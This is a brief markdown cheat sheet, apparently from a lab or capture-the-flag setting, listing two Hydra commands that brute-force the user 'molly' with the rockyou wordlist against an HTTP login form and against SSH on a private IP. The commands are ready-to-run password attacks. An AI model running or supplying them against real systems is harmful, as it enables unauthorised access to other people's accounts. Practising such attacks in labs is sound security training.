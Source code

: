 # Cheatsheet Hydra

## Hydra http form bruteforce

```
hydra -l molly -P rockyou.txt 10.10.4.128 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V
```

## Hydra SSH Bruteforce

```
hydra -l molly -P rockyou.txt 10.10.4.128 ssh -V -I
```

